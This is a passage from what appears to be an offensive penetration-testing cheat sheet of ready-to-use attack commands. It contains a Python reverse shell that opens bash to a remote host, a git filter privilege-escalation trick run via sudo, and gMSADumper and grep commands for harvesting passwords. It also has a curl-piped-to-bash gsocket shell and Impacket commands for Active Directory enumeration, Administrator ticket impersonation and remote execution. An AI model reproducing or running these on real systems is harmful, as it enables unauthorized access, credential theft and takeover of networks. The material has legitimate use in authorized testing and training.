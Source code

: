 ```c
export RHOST="<LHOST>";export RPORT=<LPORT>;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

**Execution**

```c
$ git init
$ echo '*.c filter=indent' > .git/info/attributes
$ git config filter.indent.clean /tmp/<FILE>
$ sudo -u <USERNAME> git-commit.sh
```

### gMSADumper

> https://github.com/micahvandeusen/gMSADumper

```c
$ python3 gMSADumper.py -u <USERNAME> -p <PASSWORD> -d <DOMAIN> -l dc.<DOMAIN>
```

### grep

```c
$ grep -R db_passwd
$ grep -roiE "password.{20}"
$ grep -oiE "password.{20}" /etc/*.conf
$ grep -v "^[#;]" /PATH/TO/FILE | grep -v "^$"    // grep for passwords like "DBPassword:"
```

### gsocket

#### Shell

```c
$ bash -c "$(curl -fsSL gsocket.io/x)"
```

### Impacket

> https://github.com/fortra/impacket

```c
$ impacket-smbserver local . -smb2support
$ impacket-reg <DOMAIN>/<USERNAME>:<PASSWORD:PASSWORD_HASH>@<RHOST> <ACTION> <ACTION>
$ impacket-services <DOMAIN>/<USERNAME>:<PASSWORD/PASSWORD_HASH>@<RHOST> <ACTION>
$ impacket-netview <DOMAIN>/<USERNAME> -targets /PATH/TO/FILE/<FILE>.txt -users /PATH/TO/FILE/<FILE>.txt
$ impacket-lookupsid <DOMAIN>/<USERNAME>:<PASSWORD/PASSWORD_HASH>@<RHOST>
$ impacket-GetADUsers -all -dc-ip <RHOST> <DOMAIN>/
$ impacket-getST <DOMAIN>/<USERNAME>$ -spn WWW/<DOMAIN_CONTROLLER>.<DOMAIN> -hashes :d64b83fe606e6d3005e20ce0ee932fe2 -impersonate Administrator
$ impacket-rpcdump <DOMAIN>/<USERNAME>:<PASSWORD/PASSWORD_HASH>@<RHOST>
$ impacket-samrdump <DOMAIN>/<USERNAME>:<PASSWORD/PASSWORD_HASH>@<RHOST>
$ impacket-atexec -k -no-pass <DOMAIN>/Administrator@<DOMAIN_CONTROLLER>.<DOMAIN> 'type C:\PATH\TO\FILE\<FILE>'
```
